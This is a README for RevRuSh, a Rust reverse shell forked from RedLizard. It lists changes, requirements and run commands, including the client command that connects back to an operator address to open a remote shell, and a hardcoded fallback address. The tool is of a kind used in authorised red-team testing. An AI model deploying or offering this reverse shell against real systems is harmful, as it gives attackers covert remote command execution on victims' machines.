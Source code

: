 # RevRuSh - A sample reverse shell in Rust
### Based on https://github.com/trickster0/RedLizard


![Redlizard](screen.png)

#### Note
Since the original project, RedLizard, is not mantained anymore I decided to create a new indipendent project.

Many thanx to [trickster0](https://github.com/trickster0) 

#### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


#### Requirements:
- rustc & cargo 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
#### Advises
- [Generate certificate using OpenSSL](https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs)
- better run server on linux

#### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
./redlizard_server zinz 4443
```

#### Run the client
Pass the server:port as argument.
```
redlizard_client.exe 192.168.1.10:4443
```

##### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```rust
 "127.0.0.1:4443".to_owned()
```


